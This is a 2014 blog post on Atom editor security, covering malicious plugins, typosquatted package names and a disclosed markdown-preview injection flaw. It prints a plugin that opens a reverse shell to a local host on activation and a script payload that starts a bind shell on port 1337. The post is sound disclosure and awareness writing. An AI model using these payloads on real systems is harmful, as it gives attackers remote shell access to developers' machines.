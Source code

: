 ```yaml
---
date: 2014-03-02 00:04:34 GMT
slug: of-atom.io-and-security
tags: security, atom.io, nodesecurity, node.js, apm, npm
title: of atom.io and security
type: text
---
```


Like many of you, I recently received an invite to atom.io, GitHub's new text editor.

Atom embraces everything that I love about node.js: easy creation, hackability, distribution, and installation of small modules. 

It also brings with it some of the same types of security concerns.

Shortly after downloading and playing with the app I posted this in [andbang](http://andbang.com) (our team collaboration tool):

"my first atom.io plugin, am I doing it right?"
```
var shells = require('node-shells');
module.exports.activate = function () {
    shells.reverseShell('canary.local', '1234');
}
```

Shortly after, my coworker Stephanie said to me: "You just can't help but hack all the things, can you?" 

No. No, I can't.

That's a simple plugin that when you install it it makes a connection back to my computer. 
Now, no sane developer would install that knowing what it does, but be honest: an attacker is not going to be that obvious and no matter how big our egos are, we all know we make stupid mistakes.

## Every strength comes with a weakness
Atom is designed for hackabililty, to run plugins and code written by you and the greater development community.

My concerns are the unintended side effects of having plain text and code executing in an environment that's a central tool for our day-to-day workflow.

Securing common developer endpoints is hard enough on its own. 

Now we have to verify the security of each module installed in our developers' text editor for seemingly benign things like syntax highlighting, coding efficiency or collaboration, or any number of awesome inventions the dev community dreams up.

## apm brings with it security concerns from npm
I did some research a while back on npm typos: packages a developer attempted to install, but couldn't because they got the name wrong.

Turns out we are measurably bad at punctuation when remembering package / module names.

The modules most commonly typed wrong were the ones with punctuation in them: "socketio" vs. "socket.io", "coffeescript" vs. "coffee-script", and so on.

This is going to happen with apm.

Malicious plugins will be created, they'll squat on commonly typo'd names, and it will be a problem.
It will be a pain in the ass to police as well. The same problem exists within npm, where we rely on the community to police it at the moment. 

It took the community a week to ask me to take down my fake "coffeescript" module that was blank. Had it replicated the functionality of a working module, I imagine it would still be up there today.

## This isn't your grandmothers DOM.
The next issue I see is that getting content injection within the atom.io editor means code execution with all the awesome power of node.js.

According to their [security page](https://github.com/rogerwang/node-webkit/wiki/Security), node-webkit has 2 frame types: Node frames and normal frames. It's the Node frame that gives us the extended power of node.

I was able to exploit this just hours after the release using the built-in markdown preview plugin (the one that's mentioned in the welcome text).

A month ago I published an [advisory for marked](https://nodesecurity.io/advisories/marked_multiple_content_injection_vulnerabilities), a popular module for parsing markdown. 

Turns out the markdown-preview plugin was using the rooster module that included a vulnerable version of marked. 

Small modules are nice, but everyone in the chain has to do their part to make sure things are secure and up to date.

I disclosed this vulnerability to GitHub and, as of atom 0.62.0, the included markdown-preview plugin appears to be fixed.

Here was the exploit for a quick bindshell:

```
<script>net=require('net');cp=require('child_process');server=net.createServer(function(c){sh=cp.spawn('sh',['-i']);c.pipe(sh.stdin);sh.stdout.pipe(c);});server.listen(1337);</script>
    this is a test
```

I want to make it very clear that I love the editor and am in no way casting it aside just because of a few security concerns. (I don't tend to think of security as something that should hold back developers from building amazing and useful things, but rather, an essential component of that creativity.)

However, it does make me pause and think about the mounting concerns with securing developer endpoints that I'm not sure the answers are keeping up with.

## This is what the Node Security Project is about

atom.io reinvigorates our team's belief in why we started the Node Security Project.

Our only chance to rise above the bad guys is to approach leveling up the security of the entire community in a highly distributed way. It's the only way we'll be able to handle security in this new era of massive modularity and code reuse.

We have some big plans for Node Security Project for 2014 and we'd love to have your help as we begin to roll those out in the coming months.

Give us a follow on twitter for project updates. [@nodesecurity](https://twitter.com/nodesecurity)

